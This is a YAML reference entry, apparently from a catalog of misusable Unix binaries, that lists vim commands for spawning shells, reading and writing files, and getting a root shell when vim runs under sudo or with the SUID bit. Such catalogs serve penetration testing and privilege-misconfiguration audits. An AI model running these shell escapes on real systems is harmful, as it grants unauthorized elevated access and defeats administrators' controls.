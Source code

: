 ```yaml
---
functions:
  execute-interactive:
    - code: vim -c ':!/bin/sh'
    - code: |
        vim
        :set shell=/bin/sh
        :shell
  file-write:
    - code: |
        vim file_to_write
        idata
        ^[
        w
  file-read:
    - code: vim file_to_read
  suid-enabled:
    - code: ./vim -c ':!/bin/sh -p'
  sudo-enabled:
    - code: sudo vim -c ':!/bin/sh'
---
```

